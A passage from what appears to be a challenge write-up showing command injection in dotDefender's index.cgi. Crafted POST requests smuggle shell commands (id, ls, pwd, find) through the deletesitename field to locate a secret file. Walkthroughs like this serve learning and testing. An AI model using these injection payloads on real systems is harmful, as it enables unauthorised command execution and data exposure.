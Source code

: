 ```
Referer: https://172.16.159.132/dotDefender/index.cgi
Authorization: Basic YWRtaW46
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 95

sitename=dotdefeater&deletesitename=dotdefeater;id;ls -al
../;pwd;&action=deletesite&linenum=15

--------------------/Response/--------------------
```

So it looks like we can use a specially crafted POST request to execute commands on the file system.

If that is true, we can simply try to  “find” the secret file on the filesystem and display it’s contents :

By hooking a web proxy between your browser and the server (or by using a custom Request editor such as Burp), we can craft/manipulate a  request and insert the evil payload, basically trying to find the location of the n00bSecret.txt file. The fields to alter are

- Host
- Referer
- Authorization
- and of course, the command to execute (“find” command in this case)

```
POST /dotDefender/index.cgi HTTP/1.1
Host: www1.noob-filter.com
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.1.9) Gecko/20100330 Fedora/3.5.9-1.fc11 Firefox/3.5.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
Referer: http://www1.noob-filter.com/dotdefender/index.cgi
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

sitename=dotdefeater&deletesitename=dotdefeater;find / -name n00bSecret.txt;
&action=deletesite&linenum=15
```

Wait until the find operation completes and review the results that are sent back by the server :

[![image](../../../_resources/e6b4d68b765c4d8d8c585ba230eaf30b.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image7.png)
